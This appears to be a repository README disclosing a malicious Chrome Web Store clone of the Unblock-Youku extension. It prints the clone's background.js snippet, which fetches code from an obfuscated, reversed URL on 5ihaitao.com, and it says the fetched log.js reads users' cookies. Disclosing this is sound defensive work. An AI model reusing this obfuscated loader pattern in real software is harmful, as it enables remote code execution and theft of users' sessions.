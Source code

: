 Name: 优酷海外版

CWS ID: fmakoabecaggdofhohcdjiaifnkmpldj

Homepage: `https://chrome.google.com/webstore/detail/%E4%BC%98%E9%85%B7%E6%B5%B7%E5%A4%96%E7%89%88/fmakoabecaggdofhohcdjiaifnkmpldj`

This is a malicious copy the extension Unblock-Youku (ID: pdnfnkhpgegpcingjbfihlkjeighnddk).

In its background.js file, you can find

```javascript
function chk() {
    var a = new XMLHttpRequest;
    a.onreadystatechange = function () {
        4 == a.readyState && (localStorage.updated = a.responseText)
    };
    a.open("GET", "sj.gol/gol/moc.oatiahi5.emorhc//:ptth".split("").reverse().join(""), !0);
    a.send(null)
}
```

It will download arbitrary javascript code from their server `5ihaitao.com`, and execute it on your local computers.

The current version of the log.js file is kept a record in this folder.

You can check that the log.js file actually gets and manipulates users' website cookies, which can actually steal your online indentities and leak your private and important information.
